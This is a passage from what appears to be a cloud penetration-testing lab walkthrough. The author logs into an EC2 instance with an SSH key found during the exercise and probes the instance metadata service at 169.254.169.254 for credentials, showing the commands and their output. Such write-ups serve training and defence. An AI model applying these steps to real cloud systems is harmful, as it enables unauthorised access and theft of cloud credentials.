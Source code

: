 We can try retrieving distribution from the AMI instance of the EC2 instance, but we don't have access to do it
```
aws ec2 describe-images --image-ids <ImageID>
```

Now using ssh key found (don't forget to set permissions), we can login to EC2 instance
```
└─$ ssh -i ec2.pem louise@10.1.20.24
The authenticity of host '10.1.20.24 (10.1.20.24)' can't be established.
ED25519 key fingerprint is SHA256:oI+T/KPgRAu85xxfnIN2gC7TbinBDPksecJsWWu0Rk4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.1.20.24' (ED25519) to the list of known hosts.
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.8.0-1008-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat Aug 30 17:46:47 UTC 2025

  System load:  0.0               Processes:             104
  Usage of /:   35.5% of 6.71GB   Users logged in:       0
  Memory usage: 21%               IPv4 address for enX0: 10.1.20.24
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Sat Jun  8 08:53:56 2024 from 2.100.97.23
louise@ip-10-1-20-24:~$ 
```

It's worth checking internal instance metadata service (IMDS) on the instance, which sometimes can contain sensitive information
```
louise@ip-10-1-20-24:~$ curl http://169.254.169.254/latest/meta-data
<?xml version="1.0" encoding="iso-8859-1"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
        "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
 <head>
  <title>401 - Unauthorized</title>
 </head>
 <body>
  <h1>401 - Unauthorized</h1>
 </body>
</html>

```

